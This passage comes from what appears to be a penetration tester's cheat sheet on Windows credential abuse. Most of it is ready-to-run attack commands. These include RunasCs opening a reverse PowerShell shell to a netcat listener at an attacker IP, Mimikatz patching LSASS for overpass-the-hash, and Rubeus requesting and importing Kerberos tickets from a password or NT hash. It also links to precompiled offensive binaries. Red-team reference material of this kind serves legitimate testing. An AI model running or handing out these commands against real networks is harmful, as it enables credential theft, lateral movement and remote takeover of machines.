 ```text
PS > . .\Invoke-ScheduledTask.ps1
PS > . .\Invoke-CommandAs.ps1
PS > Invoke-CommandAs -ScriptBlock {whoami} -AsUser $cred
```

**RunasCs**

* [https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

```text
$ rlwrap nc -lvnp 1337
PS > Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```

### Mimikatz

* [https://github.com/GhostPack/Rubeus\#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds \([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)\), opens the LSASS process and patch it with the supplied NT hash; this causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```text
 # Overpass-the-Hash → Pass-the-Ticket
Cmd > .\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```

### Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus\#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Create a sacrificial process \([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)\), legitimately ask Kerberos for TGT, import it and interact with the process:

```text
 # Pass-the-Ticket
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
 # Overpass-the-Hash → Pass-the-Ticket
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

Create a new process with dummy creds \([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)\) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:
